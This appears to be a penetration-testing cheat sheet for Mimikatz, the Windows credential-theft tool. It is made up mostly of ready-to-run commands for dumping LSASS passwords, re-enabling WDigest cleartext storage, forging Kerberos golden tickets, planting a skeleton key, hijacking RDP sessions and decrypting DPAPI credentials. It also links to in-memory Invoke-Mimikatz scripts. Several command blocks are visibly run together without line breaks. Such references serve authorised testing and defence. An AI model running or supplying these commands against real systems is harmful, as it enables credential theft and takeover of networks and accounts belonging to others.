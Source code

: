 # Windows - Mimikatz

# Windows - Mimikatz

## Summary

- [Mimikatz - Execute commands](about:blank#)
- [Mimikatz - Extract passwords](about:blank#)
- [Mimikatz - Mini Dump](about:blank#)
- [Mimikatz - Golden ticket](about:blank#)
- [Mimikatz - Skeleton key](about:blank#)
- [Mimikatz - RDP session takeover](about:blank#)
- [Mimikatz - Credential Manager & DPAPI](about:blank#)
- [Mimikatz - Commands list](about:blank#)
- [Mimikatz - Powershell version](about:blank#)
- [References](about:blank#references)

![http://adsecurity.org/wp-content/uploads/2014/11/Delpy-CredentialDataChart.png](http://adsecurity.org/wp-content/uploads/2014/11/Delpy-CredentialDataChart.png)

Data in memory

## Mimikatz - Execute commands

Only one command

    PS C:\temp\mimikatz> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit

Mimikatz console (multiple commands)

    PS C:\temp\mimikatz> .\mimikatzmimikatz # privilege::debugmimikatz # sekurlsa::logonpasswordsmimikatz # sekurlsa::wdigest

## Mimikatz - Extract passwords

> Microsoft disabled lsass clear text storage since Win8.1 / 2012R2+. It was backported (KB2871997) as a reg key on Win7 / 8 / 2008R2 / 2012 but clear text is still enabled.

    mimikatz_command -f sekurlsa::logonPasswords fullmimikatz_command -f sekurlsa::wdigest# to re-enable wdigest in Windows Server 2012+# in HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\SecurityProviders\WDigest# create a DWORD 'UseLogonCredential' with the value 1.reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /f /d 1

:warning: To take effect, conditions are required : - Win7 / 2008R2 / 8 / 2012 / 8.1 / 2012R2: * Adding requires lock * Removing requires signout - Win10: * Adding requires signout * Removing requires signout - Win2016: * Adding requires lock * Removing requires reboot

## Mimikatz - Mini Dump

Dump the lsass process.

    C:\procdump.exe -accepteula -ma lsass.exe lsass.dmpnet use Z: https://live.sysinternals.comZ:\procdump.exe -accepteula -ma lsass.exe lsass.dmp

Then load it inside Mimikatz.

    mimikatz # sekurlsa::minidump lsass.dmpSwitch to minidumpmimikatz # sekurlsa::logonPasswords

## Mimikatz - Golden ticket

    .\mimikatz kerberos::golden /admin:ADMINACCOUNTNAME /domain:DOMAINFQDN /id:ACCOUNTRID /sid:DOMAINSID /krbtgt:KRBTGTPASSWORDHASH /ptt

    .\mimikatz "kerberos::golden /admin:DarthVader /domain:rd.lab.adsecurity.org /id:9999 /sid:S-1-5-21-135380161-102191138-581311202 /krbtgt:13026055d01f235d67634e109da03321 /startoffset:0 /endin:600 /renewmax:10080 /ptt" exit

## Mimikatz - Skeleton key

    privilege::debugmisc::skeleton# map the sharenet use p: \\WIN-PTELU2U07KG\admin$ /user:john mimikatz# login as someonerdesktop 10.0.0.2:3389 -u test -p mimikatz -d pentestlab

## Mimikatz - RDP session takeover

Run tscon.exe as the SYSTEM user, you can connect to any session without a password.

    privilege::debugtoken::elevatets::remote /id:2

    # get the Session ID you want to hijackquery usercreate sesshijack binpath= "cmd.exe /k tscon 1 /dest:rdp-tcp#55"net start sesshijack

## Mimikatz - Credential Manager & DPAPI

    # check the folder to find credentialsdir C:\Users\<username>\AppData\Local\Microsoft\Credentials\*# check the file with mimikatz$ mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\2647629F5AA74CD934ECD2F88D64ECD0# find master key$ mimikatz !sekurlsa::dpapi# use master key$ mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\2647629F5AA74CD934ECD2F88D64ECD0 /masterkey:95664450d90eb2ce9a8b1933f823b90510b61374180ed5063043273940f50e728fe7871169c87a0bba5e0c470d91d21016311727bce2eff9c97445d444b6a17b

## Mimikatz - Commands list

[Untitled](Windows%20Mimikatz/Untitled%20Database.csv)

## Mimikatz - Powershell version

Mimikatz in memory (no binary on disk) with :

- [Invoke-Mimikatz](https://raw.githubusercontent.com/PowerShellEmpire/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1) from PowerShellEmpire
- [Invoke-Mimikatz](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1) from PowerSploit

More informations can be grabbed from the Memory with :

- [Invoke-Mimikittenz](https://raw.githubusercontent.com/putterpanda/mimikittenz/master/Invoke-mimikittenz.ps1)

## References

- [Unofficial Guide to Mimikatz & Command Reference](https://adsecurity.org/?page_id=1821)
- [Skeleton Key](https://pentestlab.blog/2018/04/10/skeleton-key/)
- [Reversing Wdigest configuration in Windows Server 2012 R2 and Windows Server 2016 - 5TH DECEMBER 2017 - ACOUCH](https://www.adamcouch.co.uk/reversing-wdigest-configuration-in-windows-server-2012-r2-and-windows-server-2016/)